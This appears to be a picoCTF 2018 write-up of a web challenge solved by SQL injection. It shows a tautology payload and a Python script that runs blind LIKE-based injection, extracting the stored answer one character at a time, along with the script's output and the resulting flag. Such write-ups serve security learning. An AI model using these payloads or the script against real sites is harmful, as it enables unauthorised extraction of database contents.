



## Challenge

There is a website running at http://2018shell1.picoctf.com:36052
(link). Try to see if you can answer its question.

## Solution

we get a form looking for an answer

if we enter a value of `a` we are given the SQL statement constructed
and message that we were wrong.

Let's see what happens when we enter `' or 'x'='x`

ok, so we get a different message if the query returns something, this
we can use.
We can give an snwer like `' OR answer LIKE 'a%` to test if it starts
with a letter a, and build up answer like that. Since this will takea
while, we script it

    import requests
    import string

    url="http://2018shell1.picoctf.com:36052/answer2.php"
    alphabet=string.printable.replace('%','').replace("'",'')
    password=''

    stop = False
    while not stop:
        for c in alphabet:
            params = {'answer': "' OR answer LIKE '"+password+c+"%", 'debug': '1'}
            r = requests.post(url, data=params)

            if "so close" in r.text:
                password += c
                print("letter found! "+password)
                break
            elif "Wrong" not in r.text:
                stop = True
                print(r.text)
                break

    print(password)
{: .language-python}

this outputs

    letter found! 4
    letter found! 41
    letter found! 41a
    letter found! 41an
    letter found! 41and
    letter found! 41ands
    letter found! 41andsi
    letter found! 41andsix
    letter found! 41andsixs
    letter found! 41andsixsi
    letter found! 41andsixsix
    letter found! 41andsixsixt
    letter found! 41andsixsixth
    letter found! 41andsixsixths

but now what..? this is not the flag, nor the answer to put in the form.
Nor is `42`

turns out the query wasn't case sensitive, and the answer we are looking
for is
`41AndSixSixths`. When we put that in the form we get the flag:

    SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'

    Perfect!

    Your flag is: picoCTF{qu3stions_ar3_h4rd_d3850719}

